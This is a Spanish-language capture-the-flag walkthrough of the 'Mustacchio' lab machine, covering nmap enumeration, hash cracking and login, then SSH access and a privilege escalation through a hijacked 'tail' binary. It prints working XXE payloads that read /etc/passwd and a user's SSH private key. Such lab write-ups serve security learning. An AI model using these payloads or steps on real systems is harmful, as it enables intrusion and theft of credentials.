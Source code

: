 ### nmap 
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![[Pasted image 20231211214708.png]]
### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![[Pasted image 20231211215451.png]]
parece que el archivo esta vacio
###  gobuster
![[Pasted image 20231211215631.png]]
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom
### subdirectorio custom/js
![[Pasted image 20231211215353.png]]
### el archivo users.bak lo podemos descargar 
![[Pasted image 20231211220112.png]]
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![[Pasted image 20231211220355.png]]
buscamos un decoder de hash SHA-1
### tenemos un usuario y ahora una pass
![[Pasted image 20231211220902.png]]
### iniciamos session cn el panel de login
![[Pasted image 20231211222507.png]]
### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![[Pasted image 20231211222616.png]]
### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![[Pasted image 20231211222919.png]]
### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![[Pasted image 20231212001031.png]]
### perfecto tenemos respuesta. vemos que existe un usuario llamado barry. vamos a intentar consegui su id_rsa modificando la ruta en el xml

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```
### tenemos la id_rsa de barry
![[Pasted image 20231212001934.png]]
para poder copiar la id_rsa de una mejor podemos hacer Ctrl + u para ver el codigo fuente
![[Pasted image 20231212002209.png]]
### puerto 22/ssh
![[Pasted image 20231212002530.png]]
### intentamos conectarnos por ssh pero necesitamos otorgar permisos de lectura. esto lo hacemos con el comando chmod luego intentamos ingresar pero al parecer la id_rsa necesita una clave asi que vamos a conseguirla
![[Pasted image 20231212002803.png]]
### con estos pasos podemos conseguir el hash de la id_rsa y lo enviamos a un archivo llamado id_hash como se ve en la imagen, hacemos un cat para asegurarnos que el archivo id_hash contenga el hash
### usaremos la herramienta john para decodear el hash
![[Pasted image 20231212003052.png]]
### ahora tenemos la palabra clave que necesita la id_rsa asi que intentemos entrar por ssh de nuevo
### Port 22/ssh
![[Pasted image 20231212003433.png]]
perfecto estamos dentro y somos el usuario barry
### Escalada de privilegios
navegando por la maquina nos hemos encontrado otro usuario el cual tiene un archivo muy interesante, si hacemos cat no podemos ver nada pero si hacemos strings.....
![[Pasted image 20231212003910.png]]
### miramos los permisos del archivo
el archivo parece pertenecer al usuario root pero (otros) tienen permisos de ejecución 
![[Pasted image 20231212004140.png]]

### vamos a aprovecharnos de la variable tail para poder escalar privilegios
primero vamos al directorio /tmp vamos a crear un nuevo archivo que se llame tail y vamos a cambiar los permisos de la bash con el siguiente comando
![[Pasted image 20231212010043.png]]

![[Pasted image 20231212005317.png]]

